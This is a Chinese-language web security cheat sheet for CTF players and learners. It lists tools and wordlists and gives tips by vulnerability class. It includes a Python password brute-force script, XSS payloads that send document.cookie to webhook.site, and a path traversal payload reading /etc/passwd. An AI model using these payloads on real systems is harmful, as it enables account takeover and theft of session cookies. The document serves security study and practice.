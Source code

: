 # Web安全攻防工具与技巧速查表

本项目旨在为Web攻防学习者和CTF选手提供一份高效、实用的工具和技巧速查表，涵盖常见Web安全漏洞的检测与利用方法，以及配套的工具和脚本推荐。

---

## 环境与工具建议

- **gobuster**：目录/路径爆破工具
- **Burp Suite**：Web渗透测试神器，建议配置好代理和mtls
- **Python**：建议安装，方便自定义脚本
- **常用爆破脚本**：如用于凭证猜解的脚本
- **常用密码字典**：[xato-net-10-million-passwords-1000.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/xato-net-10-million-passwords-1000.txt)
- **默认凭证字典**：[default-passwords.csv](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv)
- **常用路径字典**：如 [common.txt](https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content)
- **webhook**：[webhook.site](https://webhook.site/)
- **hashcat**：本地hash破解工具，[hashcat cheatsheet](https://cheatsheet.haax.fr/passcracking-hashfiles/hashcat_cheatsheet/)
- **在线hash破解**：[crackstation.net](https://crackstation.net/)
- **Cookie编辑工具**：如EditThisCookie插件，或直接用浏览器开发者工具
- **Payload All The Things**：漏洞Payload集合 [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- **CyberChef**：万能编码/解码/分析工具 [CyberChef](https://gchq.github.io/CyberChef/#recipe=Magic(3,false,false,''))
- **hash识别**：[tunnelsup hash analyzer](https://www.tunnelsup.com/hash-analyzer/)
- **Base64编码/解码**：[base64decode.org](https://www.base64decode.org/)、[base64encode.org](https://www.base64encode.org/)
- **JWT分析**：[jwt.io](https://jwt.io/)
- **Flask session分析**：[flask-session-cookie-manager](https://noraj.github.io/flask-session-cookie-manager/)、[flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)
- **URL编码解码**：[urldecoder.org](https://www.urldecoder.org/)

---

## 常见漏洞与利用技巧

### 1. 认证相关漏洞（Authentication）

#### 1.1 默认密码
- 检查应用是否有明显的框架标识（如WordPress、Tomcat等）
- 常用默认凭证爆破：[default-passwords.csv](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv)

#### 1.2 弱密码
- 利用Python脚本进行密码爆破（示例代码见下方）
- 可用字典：[xato-net-10-million-passwords-1000.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/xato-net-10-million-passwords-1000.txt)

```python
import requests
import time

wordlist = open("passwords.txt", "r", encoding="utf8").readlines()
url = "https://example.com/login"
headers = {"Content-Type": "application/x-www-form-urlencoded"}

for pwd in wordlist:
    pwd = pwd.strip('\n')
    data = {'username': 'admin', 'password': pwd}
    r = requests.post(url, headers=headers, data=data)
    if "Incorrect" not in r.text:
        print("Password is: " + pwd)
        break
    time.sleep(0.5)
```

#### 1.3 多因素认证（MFA）
- TOTP码可用[totp.danhersam.com](https://totp.danhersam.com/)生成

#### 1.4 SQL注入
- 常用Payload参考：[PayloadsAllTheThings - SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- 可用[guidedctf.sec.edu.au/query-viewer](https://guidedctf.sec.edu.au/query-viewer)可视化SQL查询

#### 1.5 弱会话管理
- 检查Cookie内容，尝试修改角色、用户ID等敏感字段
- JWT、Flask Token分析与伪造见“编码/加密/Token分析”部分

#### 1.6 前端信息泄露
- 检查页面源码与JS文件，查找硬编码凭证或API Key

---

### 2. 授权相关漏洞（Authorization）

#### 2.1 弱会话管理
- 检查Cookie是否可变更为高权限角色或其他用户ID

#### 2.2 API接口/敏感端点泄露
- 检查JS和HTML源码，查找隐藏API端点

#### 2.3 IDOR（不安全直接对象引用）
- 枚举和篡改参数（如id、username、email等），尝试访问他人资源

#### 2.4 URL篡改
- 枚举API路径，尝试越权访问
- 针对403路径继续爆破下级目录

---

### 3. 输入注入类漏洞（Input Injection）

#### 3.1 SQL注入
- 参见认证部分
- Payload参考：[PayloadsAllTheThings - SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

#### 3.2 XSS（跨站脚本攻击）
- 常用Payload参考：[PayloadsAllTheThings - XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- Cookie窃取Payload示例：
  ```html
  <img src=x onerror=this.src='https://webhook.site/xxx?c='+document.cookie>
  <script>fetch('https://webhook.site/xxx?c='+document.cookie)</script>
  ```
- 检查HTTPOnly标志，利用EditThisCookie等工具
- CSP评估：[csp-evaluator.withgoogle.com](https://csp-evaluator.withgoogle.com)

---

### 4. 服务器端攻击（Server Side Attacks）

#### 4.1 路径穿越（Path Traversal）
- 示例Payload：`../../../../../../etc/passwd`
- 详细参考：[PayloadsAllTheThings - Directory Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)
- 在线练习：[PortSwigger Path Traversal](https://portswigger.net/web-security/file-path-traversal)

#### 4.2 本地文件包含（LFI）
- 与路径穿越类似，参考：[PayloadsAllTheThings - File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
- 在线练习：[PentesterLab LFI](https://pentesterlab.com/exercises/from_sqli_to_shell/course)

#### 4.3 文件上传漏洞
- 检查文件上传功能，尝试绕过后端校验
- 参考：[PayloadsAllTheThings - Upload Insecure Files](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)
- 在线练习：[PortSwigger File Upload](https://portswigger.net/web-security/file-upload)

#### 4.4 SSRF（服务器端请求伪造）
- 查找URL或文件路径参数，尝试SSRF Payload
- 参考：[PayloadsAllTheThings - SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- 在线练习：[PortSwigger SSRF](https://portswigger.net/web-security/ssrf)

---

### 5. 编码/加密/Token分析

- **Base64/URL编码识别与解码**：`==`、`=`、`%3d`等结尾多为Base64，可用[CyberChef](https://gchq.github.io/CyberChef/#recipe=Magic(3,false,false,''))、[base64decode.org](https://www.base64decode.org/)
- **Hash识别**：[tunnelsup hash analyzer](https://www.tunnelsup.com/hash-analyzer/)
- **JWT分析**：[jwt.io](https://jwt.io/)，支持Payload修改与签名
- **Flask Session分析**：[flask-session-cookie-manager](https://noraj.github.io/flask-session-cookie-manager/)、[flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)
- **URL解码**：[urldecoder.org](https://www.urldecoder.org/)

---

## 推荐资源

- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [SecLists](https://github.com/danielmiessler/SecLists)
- [CyberChef](https://gchq.github.io/CyberChef/#recipe=Magic(3,false,false,''))
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [PentesterLab](https://pentesterlab.com/exercises/from_sqli_to_shell/course)

---

> 本文档持续更新，欢迎PR补充更多实用技巧和工具！
